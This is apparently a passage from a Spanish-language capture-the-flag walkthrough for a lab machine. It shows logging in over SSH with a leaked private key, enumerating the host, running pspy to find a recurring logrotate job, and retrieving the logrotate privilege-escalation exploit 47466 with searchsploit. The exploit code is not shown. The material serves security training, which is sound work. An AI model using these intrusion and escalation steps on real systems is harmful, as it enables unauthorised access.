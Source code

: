 ### Conneccion por ssh con id_rsa {-}

1. Copiamos el contenido de la id_rsa del pdf en un fichero id_rsa en nuestra maquina.
1. Le ponemos los derechos necesarios

    ```bash
    chmod 600 id_rsa
    ```

1. Nos connectamos

    ```bash
    ssh reader@10.10.10.176 -i id_rsa
    ```

Y ya estamos connectados como el usuario **reader** y podemos leer la flag.## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
sudo -l
ls -l
cd backups
ls -l
cat access.log
cat access.log.1
```

Aqui no tenemos mucha cosa que podemos hacer. Uzamos **pspy** para investigar el systema.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
./pspy64
```

pspy nos muestra que hay un 
```bash
 /usr/sbin/logrote 
```
 que se ejecuta a interval regular de tiempo.

```bash
uname -a
logrotate -v
```

En la maquina de atacante buscamos un exploit logrotate para escalada de privilegios

```bash
searchsploit logrot
searchsploit -m 47466
mv 47466.c logrotten.c
```

Copiamos el contenido en un fichero de la maquina victima y le quitamos todos los commentarios.
